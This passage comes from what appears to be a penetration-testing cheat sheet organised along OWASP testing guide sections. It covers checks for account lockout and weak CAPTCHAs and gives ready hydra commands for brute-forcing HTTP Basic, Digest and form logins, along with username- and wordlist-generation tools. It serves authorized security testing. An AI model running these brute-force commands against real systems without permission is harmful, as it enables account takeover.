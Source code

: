  - Testing lockout mechanism
   - Try to login up to 10 times with a wrong password
   - If there is no lockout message, try to login with the correct password
   - If there is no lockout after 10 attempts, there is not lockout meachanism -> Report that
   - Try while your 1st user account is locked to login with a 2nd useraccount
     - If that still works, lockout does apply only to useraccount not to IP -> Report that

 - Testing capture security
   - limited amount of possible answers
   - answer in hidden field or similiar
   - easy solveable like `2+3=`  
     *(this example could be parsed out of the page and solved with eval(...) in Python)*
   - broteforce possible?

#### HTTP login bruteforcing

**BASIC authentication**

 - `hydra -l admin -P /usr/share/wordlists/1000_common_passwords.txt -f 1.2.3.4 http-get /admin/`  
    use `-s` to specify a port (e.g. `-s 8080`)
 - `hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/1000_common_passwords.txt -f 1.2.3.4 http-get /admin/`

 Try also HTTP verb tampering - so try to send `GET` requests as `POST` and vice versa to test for a insecure server configuration.

**DIGEST authentication**

This is a challenge response auth. and much more secure / difficult to attack then BASIC auth.

 - `hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/1000_common_passwords.txt -f 1.2.3.4 http-get /admin/`  
   Hydra can detect the type of auth. and that's why the same command can attack BASIC and DIGEST auth.

**Web login form**

 - `hydra -l admin -P /usr/share/wordlists/1000_common_passwords.txt pentest-experts.com http-post-form "/login.php:user=^USER^&password=^PASS^:F=incorrect"`  
    `^USER^` and `^PASS^` get replaced by the credentials from the list(s) and `:F=` specifies a flag to determin if the login failed  
    Use for example `:S=302` to set the success flag to the value `302`, which occure in a HTTP redirect  
    Use `-s 8080` to specify an non-standard port - like 8080 in the example

 **Username generation**

  - `./username-anarchy Jane Smith > jane_smith_usernames.txt`  
    Create a username list

**Targeted or individual wordlists**

 - `cupp -i` (interactive mode)
 - `crunch 6 8 ABCDEF0123456789` (6-8 character long passwords containing only A-F, 0-9)

### 4.4.4 Testing for Bypassing Authentication Schema (WSTG-ATHN-04)
